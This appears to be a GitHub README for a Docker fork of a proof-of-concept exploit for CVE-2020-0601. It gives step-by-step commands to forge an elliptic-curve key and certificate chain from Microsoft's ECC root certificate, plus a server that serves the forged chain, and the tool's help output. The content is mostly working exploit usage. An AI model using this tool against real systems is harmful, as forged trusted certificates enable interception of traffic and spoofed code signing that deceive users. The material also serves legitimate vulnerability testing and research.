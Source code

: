 # CVE-2020-0601

I give full credit to https://github.com/kudelskisecurity/chainoffools. This fork just adds a Dockerfile which creates a pre-configured environment.

## 💿 Build Docker Image
```bash
docker build -t cve-2020-0601 .
```

## 🚢 Docker container

To run the container with a bash shell

```bash
docker run -it --rm -v $(pwd):/app -w /app cve-2020-0601 bash
```

## ⚒️ Forging certificate

To forge certificate using default settings

```bash
./gen-key.sh
```

This will create `cert.key` and `cert_chain.crt`

### 💁 Server

To use the certificates and keys you just created run the server 

```bash
python server.py
```

## ☣️ Hazardou

Run the docker container with the preset environment

```bash
docker run -it --rm -v $(pwd):/app -w /app cve-2020-0601 bash
```

Run the gen_key.py CLI debug

```bash
pipenv run python gen_key.py -p tools/MicrosoftECCProductRootCertificateAuthority.cer -d
```

Running `pipenv run python gen_key.py --help`

```
Usage: gen_key.py [OPTIONS]

  Create forged key from EC certificate

Options:
  -p, --cert-path TEXT  Full path to EC certificate
  -o, --output TEXT     Full output path to write forged certificate to
  -k, --key-pem TEXT    Full output path to write key pem to
  -d, --debug           Debug does not write keys to dick
  --help                Show this message and exit.          Show this message and exit.
  ```